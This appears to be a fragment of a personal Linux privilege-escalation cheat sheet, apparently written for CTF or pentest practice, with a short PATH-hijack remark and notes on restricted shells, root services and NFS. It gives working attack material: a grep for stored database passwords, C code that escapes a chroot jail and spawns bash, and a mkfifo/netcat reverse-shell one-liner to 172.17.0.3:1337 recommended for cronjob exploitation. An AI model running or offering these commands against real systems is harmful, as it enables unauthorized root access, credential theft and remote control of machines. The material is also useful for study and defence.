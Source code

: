 so here i come in tmp dir and then i made the chmod binary and then set the new path


*****

![](https://i.imgur.com/GzRCSPr.png)
_**Previous path**_
![](https://i.imgur.com/yuFQamn.png)
_**New path**_




# Stored passwords and shared servers
Use the `grep -nr "db_user" .` to get juicy passwords.

# Restricted Shell
#### rbash
If you are in rbash then [this](https://attackdefense.com/challengedetails?cid=97) will help.
#### chroot jail
```
#inlcude<stdlib.h>
#include<sys/stat.h>
#include <unistd.h>
int main(void){
mkdir("chroot-dir", 0755);
chroot("chroot-dir");
for(int i = 0; i< 1000; i++)
{
chdir("..");
}
chroot(".");
system("/bin/bash");
}
```

# Services running on server
`ps aux | grep "^root"` gives you the running services as root
then
`service --version` will give the version of service so that we can find the exploit.

# NFS
Hunt: check for `cat /etc/exports`







# Priv esc tip
1. If you are on other network and looking for shell then open new terminal login in same network and then listen for the priv escalated shell
2. `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|/home/tony/nc 172.17.0.3 1337 >/tmp/f` always works even in cronjobs if you get the chance to exploit then use this one.
3. If you get 127.0.0.1:1234 running then also by tunneling try `nc` and browser
